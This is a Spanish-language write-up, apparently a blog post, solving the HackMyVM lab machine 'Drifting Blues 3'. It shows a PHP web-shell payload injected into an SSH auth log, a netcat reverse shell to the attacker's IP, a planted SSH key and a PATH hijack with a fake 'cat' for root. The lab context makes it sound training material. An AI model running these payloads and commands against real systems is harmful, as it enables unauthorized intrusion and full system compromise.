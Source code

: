 ```yaml
---
layout: post
author: Quino
title: Drifting Blues 3 , HACKMYVM
---
```


En este reto nos encontramos escaneo , decodificacion de bas64 , log poisoning y  abuso del $PATH. 

No es un reto extremadamente dificil en el aprendemos como usar el path para escalar privilegios y comprobaremos lo delicado que es mostrar logs a traves de un usario.

![800x600](assets/ez.png)

## Herramientas y recursos web utilizados

- arp-scan
- nmap
- urlencoder
- https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

### Escaneo

Empezamos averiguando la ip de la maquina victima para ello ejecutamos la herramienta arp-scan nos fijamos en el resultado y buscamos la mac que empieza por 08:00 esa mac es de virtualbox.

Ejecutamos:

```bash
sudo arp-scan --localnet
```
![800x600](assets/driftingblues3/arp-scan.png)

Una vez obtenida la ip pasamos al escanear puertos

```bash
nmap -A -n -p- ipvictima
```
![800x600](assets/driftingblues3/nmap.png)

Vemos que nos muestra el 22 y el 80 y en el 80 ya nos muestra una ruta /eventeadmins que debe de extraerla del fichero robots.txt todo esto lo puedes ver por firefox directamente.

![800x600](assets/driftingblues3/eventadmins.png)

Revisamos la pagina y del texto podemos ver dos nombre de posibles usuarios uno john y el otro es buddyG , tambien nos dice que cheqeemos /littlequeenofspades.html

![800x600](assets/driftingblues3/littlequeen.png)

Revisamos la pagina y a simple vista a mi no me dice nada , pero revisando su codigo encuentro un cifrado en base64  nos copiamos el churro y procedemos a decodificarlo.

El resultado de la primera decodificacion nos da otro codigo base64 , decodificamos los dos y nos da una ruta.

![800x600](assets/driftingblues3/base64-d.png)

Vamos a la ruta que nos proporciono el codigo adminsfixit.php y vemos que es es el auth log ssh.

![800x600](assets/driftingblues3/ssh-auth-log.png)

### Log poisoning

Si intentamos login con cualuier usuario vemos que aparece reflejado en el log al refrescar la pagina.

![800x600](assets/driftingblues3/ssh-loco.png)
![800x600](assets/driftingblues3/log-loco.png)

Ahora es el momento de intentar envenenar el log para nuestro beneficio subiendo una carga util que nos permita ejecutar codigo de manera remota "RCE"

```bash
ssh <?php echo shell_exec($_GET['cmd']); ?>@ipvictima
```

![690x225](assets/driftingblues3/cargautil.png)

Si ha funcionado deberiamos de poder ejuctar codigo con la siguiente ruta:  http://$ipvictima/adminsfixit.php?cmd=ls
Para que los resultados sean mas visibles podemos visualizar la pagina por su codigo fuente.

![632x616](assets/driftingblues3/prompt-ls.png)

Desde mi punto de vista ya conseguimos lo mas complicado , ahora lo mejor en mandarnos una reverse shell , para ello ejecutamos tanto en nuestro equipo como en la victima netcat.

Primero ponemos a la escucha la maquina atacante con :

```bash
nc -lnvp 80 
```
Y en la victima si fuera necesario podemos encodear la url  para ello vamos a urlencoder.org

```bash
http://$ipvictima/adminsfixit.php?cmd=nc%20-e%20%2Fbin%2Fsh%20192.168.0.112%2080
```
![654x76](assets/driftingblues3/shell.png)

Ya tenemos la shell en nuestra maquina ahora toca hacerla interactiva 

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

### Escalada de privilegios

Encontramos un usario en home robertj el cual tiene el fichero user.txt el cual no podemos leer por permisos pues aun somos el usario  www-data.

Vamos a probar a crear las claves  ssh para poder conectarnos por ssh con ese usario antes deberiamos comprobar la config de sshd para ver si el usuario tiene el authorized keys activado si no esta olvidemos esta escalada.

Podemos crearlas en cualquier lugar pero mejor nos posicionamos en el directio .ssh de su home asi no la movemos despues
```bash
ssh-keygen -f robertj
```
Una vez creadas copiamos la clave publica a authorized_keys dentro de .ssh "obvio" y nos copiamos la privada a nuestra maquina atacante.

```bash
cp clavepublica authorized_keys
```

Probamos a conectar por ssh

```bash
ssh -i robertj robertj@192.168.0.102
```

Si lo hacemos tal y como se crearon las claves y copiamos a mi no me funciono hay que modificar los permisos y ponerlos solo de lectura para el propietario

```bash
 chmod 400 robertj
```
 Volvemos a ejecutar ahora nos pide la contraseña que dimos cuando crearmos las claves 
 
 ![654x76](assets/driftingblues3/robertj.png)
 
 Una vez dentro cat al user.txt para obtener la flag
 
> 413f**********"***

Una vez como el usuario comprobamos si hay algun binario que pueda ejecutar como root con sudo y tambien binarios con suid

```bash
sudo -l
find /  -perm /4000
```
![538x541](assets/driftingblues3/sudofind.png)

El binario en cuestion es getinfo y nos vamos a aprovechar  y alterar el path.

getinfo hace uso de cat , asi que nos creammos un fichero de nombre cat con el contenido /bin/bash y añadimos la ruta donde tengamos nuestro cat trucado a nuestro path
  
```bash
echo /bin/bash > cat
```

Le damos permisos de ejucion para todos.

```bash
chmod 777 cat
```

Añadimos nuestra ruta al path 

```bash
export  PATH=/tmp:$PATH 
 ```

En el comando anterior veis en directorio que he usado para crear el cat malicioso , comprobamos que nuestro directorio este en el PATH.

```bash
echo $PATH
```
![663x43](assets/driftingblues3/path.png)

Ahora estamos listos para ejecutar getinfo ni bien se ejecute deberia leer nuestro cat trucado y hacernos root al toque

![800x600](assets/driftingblues3/root.png)

Acordaros de la flag si os interesa , gracias por leer mis apuntes.
